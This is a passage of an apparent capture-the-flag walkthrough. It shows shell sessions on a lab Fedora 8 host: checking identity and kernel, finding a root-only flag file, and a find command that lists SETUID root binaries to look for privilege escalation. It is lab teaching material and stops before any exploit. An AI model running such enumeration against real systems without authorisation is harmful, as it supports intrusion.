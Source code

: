 uid=501(bob) gid=501(bob) groups=501(bob)
[bob@barney ~]$ uname -a
Linux barney 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux
[bob@barney ~]$ cat /etc/issue
Fedora release 8 (Werewolf)
Kernel \r on an \m

[bob@barney ~]$ 
</pre>

Here we see the user _bob_ has access to this server, while the formerly favorite user account _falken_ does not. We can look around the file system:

<pre>
[bob@barney ~]$ ls 
[bob@barney ~]$ ls /
bin  boot  dev	etc  flag3.txt	home  lib  lost+found  media  misc  mnt  net  opt  proc  root  sbin  selinux  srv  sys	tmp  usr  var
[bob@barney ~]$ cat /flag3.txt 
cat: /flag3.txt: Permission denied
[bob@barney ~]$ ls -l /flag3.txt 
-r-------- 1 root root 32 2008-11-11 05:57 /flag3.txt
</pre>

We can't access the flag because it is only accessible to _root_. We need a privilege escalation opportunity. We can search for SETUID root files:

<pre>
[bob@barney ~]$ find / -uid 0 -perm -4000 -print 2&gt;/dev/null
/usr/sbin/userhelper
/usr/sbin/mgnokiidev
/usr/sbin/suexec
/usr/sbin/ccreds_validate
/usr/sbin/usernetctl
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/kerberos/bin/ksu
/usr/bin/chage
/usr/bin/rcp
/usr/bin/rsh
/usr/bin/newgrp
/usr/bin/rlogin
/usr/bin/passwd
/usr/bin/Xorg
/usr/bin/sudoedit
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/pulseaudio
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/sperl5.8.8
/usr/libexec/polkit-grant-helper-pam
/usr/libexec/openssh/ssh-keysign
/sbin/mount.nfs
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/lib/dbus-1/dbus-daemon-launch-helper
/bin/mount
/bin/umount
/bin/ping
/bin/ping6
/bin/fusermount